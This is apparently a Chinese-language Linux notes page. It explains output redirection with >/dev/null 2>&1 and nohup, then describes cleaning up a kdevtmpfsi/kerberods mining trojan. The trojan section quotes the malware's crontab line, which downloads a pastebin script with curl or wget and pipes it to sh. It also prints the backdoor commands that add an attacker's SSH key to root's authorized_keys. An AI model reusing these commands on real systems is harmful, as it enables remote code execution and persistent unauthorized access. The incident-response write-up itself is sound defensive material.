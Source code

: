 `>/dev/null` 这条命令的作用是将标准输出1重定向到/dev/null中。 /dev/null代表linux的空设备文件，所有往这个文件里面写入的内容都会丢失，俗称“黑洞”。那么执行了>/dev/null之后，标准输出就会不再存在，没有任何地方能够找到输出的内容。
`2>&1` 这条命令用到了重定向绑定，采用&可以将两个输出绑定在一起。这条命令的作用是错误输出将和标准输出同用一个文件描述符，**说人话就是错误输出将会和标准输出输出到同一个地方**。

linux在执行shell命令之前，就会确定好所有的输入输出位置，并且从左到右依次执行重定向的命令，所以>/dev/null 2>&1的作用就是让**标准输出重定向到/dev/null中（丢弃标准输出），然后错误输出由于重用了标准输出的描述符，所以错误输出也被定向到了/dev/null中，错误输出同样也被丢弃了。执行了这条命令之后，该条shell命令将不会输出任何信息到控制台，也不会有任何信息输出到文件中**。


### nohup结合

我们经常使用nohup command &命令形式来启动一些后台程序，比如一些java服务：

```
# nohup java -jar xxxx.jar &
```
为了不让一些执行信息输出到前台（控制台），我们还会加上刚才提到的>/dev/null 2>&1命令来丢弃所有的输出：

```
# nohup java -jar xxxx.jar >/dev/null 2>&1 &
```

总而言之，在工作中用到最多的就是`nohup command >/dev/null 2>&1 &`命令

## 挖矿木马病毒清理



问题： 无意在使用`top`命令的时候发现一个异常进程: `kdevtmpfsi`,使用`ps -aux | grep kdevtmpfsi`,发现对应的执行文件路径是: `/tmp/kdevtmpfsi`. 然后尝试`kill -9`杀死进程后，再`rm -rf /tmp/kdevtmpfsi`还是会死而复生。

### 木马解析

1. 木马解析： https://xz.aliyun.com/t/4386, https://my.oschina.net/u/4437985/blog/3168526 (推荐)

一般在定时任务（`crontab -l`）中存在异常脚本:

```
[root@mdw ~]# crontab -l
*/15 * * * * （curl -fsSL https://pastebin.com/raw/xmxHzu5P||wget -q -O- https://pastebin.com/raw/xmxHzu5P)|sh
```
1). 攻击者通过网络进入第一台被感染的机器(redis未认证漏洞、ssh密码泄露登录等)。
2). 第一台感染的机器会读取known_hosts文件，遍历ssh登录，如果是做了免密登录认证，则将直接进行横向传播。
3). 修改/etc/cron.d/root文件，增加定时任务
4). kill掉同类挖矿进程
5). kill掉高好资源的其他进程
6). 下载执行主恶意程序kerberods
7). 拉起khugepageds挖矿进程
8). 为文件添加chattr锁定
9). 修改IPTABLES
10). 清除日志
11). 关闭SELinux
12). 还有个后门，创建/root/.ssh/authorized_keys，添加病毒作者自己的公钥，保证其可以使用SSH登录到服务器，具体代码如下

```
chmod 700 /root/.ssh/
echo >> /root/.ssh/authorized_keys
chmod 600 root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17" >> /root/.ssh/authorized_keys


```
